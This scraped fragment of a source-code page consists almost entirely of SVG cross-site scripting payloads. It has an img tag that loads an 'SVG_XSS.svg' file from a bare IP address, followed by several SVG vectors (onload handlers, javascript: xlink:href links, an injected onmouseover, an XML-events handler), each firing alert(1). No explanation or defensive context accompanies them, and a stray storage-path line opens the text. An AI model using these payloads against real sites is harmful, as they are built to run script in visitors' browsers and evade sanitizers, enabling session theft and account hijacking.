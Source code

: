  <img src="http://3.87.87.164/SVG_XSS.svg" alt="Smiley face" height="42" width="42"> 
 
 <svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg><svg xmlns="http://www.w3.org/2000/svg"><animation xlink:href="javascript:alert(1)"/></svg><svg xmlns="http://www.w3.org/2000/svg"><foreignObject xlink:href="javascript:alert(1)"/></svg><svg xmlns="http://www.w3.org/2000/svg"> <set attributeName="onmouseover" to="alert(1)"/> </svg><svg xmlns="http://www.w3.org/2000/svg"> <handler xmlns:ev="http://www.w3.org/2001/xml­events" ev:event="load">alert(1)</handler></svg>
